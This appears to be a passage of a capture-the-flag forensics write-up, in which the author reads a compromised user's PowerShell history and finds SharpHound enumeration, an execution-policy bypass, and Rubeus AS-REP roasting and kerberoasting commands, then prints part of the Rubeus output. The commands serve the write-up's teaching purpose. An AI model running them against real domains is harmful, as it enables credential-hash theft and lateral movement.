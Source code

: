 ## Part 1: Enumerating Dan's Account

Since the attacker got access to dan's account, lets check their powershell logs for any actions

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat dan/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd Desktop
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
powershell -ep bypass
.\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
Import-Module \SharpHound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
.\Rubeus.exe asreproast /user:emily /domain:wolvctf.corp /dc:DC01.wolvctf.corp > asreproast.output
 .\Rubeus.exe kerberoast > kerberoast.output
runas /User:wolvctf\emily cmd

```


![](Pasted_image_20250319005158.png)

Looks like they saved hashes obtained by Rubeus in some files, lets check the ASREPRoasted one:


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat dan/Desktop/asreproast.output 
��
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: AS-REP roasting

[*] Target User            : emily
[*] Target Domain          : wolvctf.corp
[*] Target DC              : DC01.wolvctf.corp

[*] Using domain controller: DC01.wolvctf.corp (fe80::af8f:bc46:1257:36be%5)
[*] Building AS-REQ (w/o preauth) for: 'wolvctf.corp\emily'
```